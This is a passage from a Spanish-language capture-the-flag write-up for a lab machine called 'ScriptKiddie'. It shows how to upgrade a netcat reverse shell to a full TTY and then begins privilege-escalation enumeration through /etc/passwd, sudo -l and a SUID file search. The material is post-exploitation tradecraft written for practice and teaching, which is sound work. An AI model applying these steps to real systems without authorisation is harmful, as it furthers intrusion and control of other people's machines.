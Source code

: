 Funciona un poco mal porque no estamos en una Full TTY, para conseguirla hay que hacer un "tratamiento de la tty". Hagámoslo:

```sh
# En máquina objetivo:
kid@scriptkiddie:~/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
kid@scriptkiddie:~/html$ ^Z
zsh: suspended  nc -nlvp 443
```

Hemos salido con el "Ctrl + Z" a local, ahora:

```sh
stty raw -echo; fg
reset xterm
```

Y de vuelta en remoto:

```sh
kid@scriptkiddie:~/html$ echo $TERM
dumb
kid@scriptkiddie:~/html$ export TERM=xterm
kid@scriptkiddie:~/html$ echo $SHELL
/bin/bash

# Antes de lo siguiente compruebo en local el tamaño con; stty size
kid@scriptkiddie:~/html$ stty rows 38 columns 184
```

## Escalada de privilegios

Somos el usuario **kid** como ahora veremos, pero hay otro usuario llamado **pwn**:

```sh
kid@scriptkiddie:/home$ whoami
kid
kid@scriptkiddie:/home$ ls -l /home
total 8
drwxr-xr-x 11 kid kid 4096 Feb  3  2021 kid
drwxr-xr-x  6 pwn pwn 4096 Feb  3  2021 pwn

kid@scriptkiddie:/home$ grep 'sh$' /etc/passwd
root:x:0:0:root:/root:/bin/bash
kid:x:1000:1000:kid:/home/kid:/bin/bash
pwn:x:1001:1001::/home/pwn:/bin/bash
```

Vayamos con los comandos que suelo usar para intentar escalar:

```sh
# Para averiguar en grupos estoy
kid@scriptkiddie:/home$ id
uid=1000(kid) gid=1000(kid) groups=1000(kid)

# ¿Tendremos previlegios de sudo?. No lo sabremos porque piden contraseña que no tenemos.
kid@scriptkiddie:/home$ sudo -l
[sudo] password for kid: 

# Programas por permisos de SUID. El pkexec se puede aprovechar quizás, pero la máquina no estaba creada para elevar así.
kid@scriptkiddie:/home$ find / \-perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
```